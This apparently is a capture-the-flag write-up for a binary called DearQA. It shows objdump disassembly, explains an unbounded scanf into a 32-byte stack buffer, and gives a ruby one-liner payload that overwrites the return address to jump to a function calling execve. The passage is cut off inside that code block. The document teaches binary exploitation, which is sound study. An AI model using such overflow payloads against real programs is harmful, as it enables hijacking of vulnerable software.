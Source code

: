   ```
    40069e:       48 8b 05 6b 05 20 00    mov    0x20056b(%rip),%rax        # 600c10 <stdout@GLIBC_2.2.5>
    4006a5:       48 89 c7                mov    %rax,%rdi
    4006a8:       e8 c3 fe ff ff          call   400570 <fflush@plt>
    4006ad:       ba 00 00 00 00          mov    $0x0,%edx
    4006b2:       be 00 00 00 00          mov    $0x0,%esi
    4006b7:       bf f9 07 40 00          mov    $0x4007f9,%edi
    4006bc:       e8 8f fe ff ff          call   400550 <execve@plt>
    4006c1:       5d                      pop    %rbp
    4006c2:       c3                      ret
  
  00000000004006c3 <main>:
    4006c3:       55                      push   %rbp
    4006c4:       48 89 e5                mov    %rsp,%rbp
    4006c7:       48 83 ec 20             sub    $0x20,%rsp
    4006cb:       bf 03 08 40 00          mov    $0x400803,%edi
    4006d0:       e8 4b fe ff ff          call   400520 <puts@plt>
    4006d5:       bf 18 08 40 00          mov    $0x400818,%edi
    4006da:       e8 41 fe ff ff          call   400520 <puts@plt>
    4006df:       bf 3e 08 40 00          mov    $0x40083e,%edi
    4006e4:       b8 00 00 00 00          mov    $0x0,%eax
    4006e9:       e8 42 fe ff ff          call   400530 <printf@plt>
    4006ee:       48 8b 05 1b 05 20 00    mov    0x20051b(%rip),%rax        # 600c10 <stdout@GLIBC_2.2.5>
    4006f5:       48 89 c7                mov    %rax,%rdi
    4006f8:       e8 73 fe ff ff          call   400570 <fflush@plt>
    4006fd:       48 8d 45 e0             lea    -0x20(%rbp),%rax
    400701:       48 89 c6                mov    %rax,%rsi
    400704:       bf 51 08 40 00          mov    $0x400851,%edi
    400709:       b8 00 00 00 00          mov    $0x0,%eax
    40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
    400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
    400717:       48 89 c6                mov    %rax,%rsi
    40071a:       bf 54 08 40 00          mov    $0x400854,%edi
    40071f:       b8 00 00 00 00          mov    $0x0,%eax
    400724:       e8 07 fe ff ff          call   400530 <printf@plt>
    400729:       b8 00 00 00 00          mov    $0x0,%eax
    40072e:       c9                      leave
    40072f:       c3                      ret
  
  [SNIP!]
  ```
  
- The hex value 0x20 is 32 in decimal and the address of vuln is 00400686 in hex.

- So the following assembly is the same with this c language representation : undefined local_28 [32];

  ```4006c7:       48 83 ec 20             sub    $0x20,%rsp```

- After that the scanf uses the defined buffer size to read the user input. So the following assembly is the same with this c language representation : __isoc99_scanf(&DAT_00400851,local_28);

  ```
  40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
  400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  ```

## 💥 Exploitation

- The endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\x00`. `"A"*32` to reach the maximum buffer capacity and `"B"*8` to reach the RSP and put the address of the vuln function.

  ```
  ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA